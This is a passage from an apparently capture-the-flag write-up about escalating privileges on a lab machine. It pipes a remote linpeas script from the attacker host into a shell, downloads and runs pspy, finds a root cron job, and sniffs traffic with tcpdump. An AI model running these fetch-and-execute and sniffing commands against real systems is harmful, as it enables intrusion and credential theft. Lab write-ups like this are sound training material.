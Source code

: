 ```shell
www-data@incognito:/var/www/html$ curl -s http://10.9.0.253/linpeas.sh | sh
[...]
╔══════════╣ Can I sniff with tcpdump?
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sniffing
You can sniff with tcpdump!
[...]
╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#capabilities
[...]
Files with capabilities (limited to 50):
/usr/sbin/tcpdump = cap_net_raw+ep
[...]
```

**I can sniff traffic with `tcpdump`?**

**I also run `pspy` on the target machine:**
```shell
┌──(root🌸siunam)-[/opt/pspy]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
www-data@incognito:/var/www/html$ wget http://10.9.0.253/pspy64 -O /tmp/pspy;chmod +x /tmp/pspy;/tmp/pspy
[...]
2023/01/11 09:02:01 CMD: UID=0    PID=19229  | /usr/sbin/CRON -f 
2023/01/11 09:02:01 CMD: UID=0    PID=19232  | /bin/sh /root/req.sh 
2023/01/11 09:02:01 CMD: UID=0    PID=19231  | /bin/sh /root/req.sh 
2023/01/11 09:02:01 CMD: UID=0    PID=19230  | /bin/sh -c /root/req.sh 
[...]
2023/01/11 09:04:01 CMD: UID=0    PID=19239  | /bin/sh /root/req.sh 
2023/01/11 09:04:01 CMD: UID=0    PID=19238  | /bin/sh /root/req.sh 
2023/01/11 09:04:01 CMD: UID=0    PID=19237  | /bin/sh -c /root/req.sh 
2023/01/11 09:04:01 CMD: UID=0    PID=19236  | /usr/sbin/CRON -f
[...]
```

**Looks like every 2 minutes, `/root/req.sh` sh script will executed by root.** 

**Hmm... Let's try to sniff traffic in port 1027:**
```shell
www-data@incognito:/var/www/html$ tcpdump -i any -s 0 'tcp port 1027' -w /tmp/sniffing.cap
tcpdump: listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes

```

**Then wait 2 minutes, and exit:**
```shell
www-data@incognito:/var/www/html$ tcpdump -i any -s 0 'tcp port 1027' -w /tmp/sniffing.cap
tcpdump: listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
^C11 packets captured
22 packets received by filter
0 packets dropped by kernel
```
